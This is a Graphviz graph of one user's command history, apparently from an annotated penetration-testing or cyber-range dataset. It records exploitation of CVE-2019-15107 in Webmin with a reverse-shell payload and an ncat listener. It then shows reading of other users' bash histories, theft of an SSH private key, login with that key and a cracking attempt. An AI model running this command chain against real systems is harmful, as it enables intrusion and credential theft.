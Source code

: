 // creating graph for user: 66
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmao U"]
	2 [label="nmap A0 A1 "]
	3 [label="nmap A0 A1 "]
	4 [label="ifconfig U"]
	5 [label="nmap -h A0 A1 "]
	6 [label="curl U"]
	7 [label="ifconfig U"]
	8 [label="git clone github.com/jas502n/CVE-2019-15107 U"]
	9 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	11 [label="ls A10 "]
	12 [label="ls -la A10 "]
	13 [label="drwx------  3 root root  4096 Apr  7 11:39 .gnupg U"]
	14 [label="drwxr-xr-x  3 root root  4096 Jul 15 09:27 .local U"]
	15 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Music U"]
	16 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Pictures U"]
	17 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	18 [label="cd U"]
	19 [label="ls A10 "]
	20 [label="cd CVE-2019-15107/ U"]
	21 [label="ls A10 "]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	24 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	25 [label="sudo apt install ncat A1 A9 A11 A12 A17 "]
	26 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	27 [label="ncat -i 8080 A1 A9 A11 A12 A17 "]
	28 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' M11 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' V11 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' V11 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' V11 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' A10 A13 "]
	39 [label="module.info.pt_BR.UTF-8 U"]
	40 [label="module.info.ru.UTF-8 U"]
	41 [label="module.info.ru_RU U"]
	42 [label="module.info.ru_RU.UTF-8 U"]
	43 [label="module.info.ru_SU U"]
	44 [label="module.info.sk U"]
	45 [label="module.info.sk.UTF-8 U"]
	46 [label="module.info.sv U"]
	47 [label="module.info.sv.UTF-8 U"]
	48 [label="module.info.tr U"]
	49 [label="module.info.zh_CN U"]
	50 [label="module.info.zh_TW.Big5 U"]
	51 [label="negativeacl U"]
	52 [label="openssl.cnf U"]
	53 [label="postinstall.pl U"]
	54 [label="save_acl.cgi U"]
	55 [label="save_group.cgi U"]
	56 [label="save_pass.cgi U"]
	57 [label="save_sql.cgi U"]
	58 [label="save_sync.cgi U"]
	59 [label="save_twofactor.cgi U"]
	60 [label="save_unix.cgi U"]
	61 [label="save_user.cgi A4 "]
	62 [label="schema.cgi U"]
	63 [label="switch.cgi U"]
	64 [label="system_info.pl U"]
	65 [label="twofactor.pl U"]
	66 [label="twofactor_form.cgi U"]
	67 [label="useradmin_update.pl A4 "]
	68 [label="webmin.schema U"]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' A10 A13 "]
	70 [label="rwxr-xr-x   6 root bin 12288 Jul  4  2019 . U"]
	71 [label="drwxr-xr-x 132 root bin 12288 Jul  4  2019 .. U"]
	72 [label="drwxr-xr-x   3 root bin  4096 Jul  4  2019 Authen-SolarisRBAC-0.1 U"]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' A10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' A10 A13 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' A10 A13 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' M10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	80 [label="ervices U"]
	81 [label="echo '81.2.195.254' >> ~/top-secret/too_dangerous.txt U"]
	82 [label="2.195.254 U"]
	83 [label="cat /etc/services M1 "]
	84 [label="less /etc/services A9 A11 A12 A17 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' V11 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	88 [label="ssh 10.1.18.22 A16 "]
	89 [label="ssh 10.1.17.4 A16 "]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' M16 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' V10 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' V11 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' V10 "]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' V10 "]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' V10 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	100 [label="touch id_rsa U"]
	101 [label="nano id_rsa U"]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' V12 "]
	103 [label="touch id_rsa.pub U"]
	104 [label="nano id_rsa.pub U"]
	105 [label="ssh eve@10.1.17.4 V16 "]
	106 [label="cd .. U"]
	107 [label="ls A10 "]
	108 [label="cd .ssh A16 "]
	109 [label="ls A10 "]
	110 [label="ls -la A10 "]
	111 [label="chmod 600 id_rsa M15 "]
	112 [label="ls -la A10 "]
	113 [label="ssh eve@10.1.17.4 V16 "]
	114 [label="gpg2john id_rsa A14 "]
	115 [label="scp -r * eve@10.1.17.4:/home/eve/ U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}

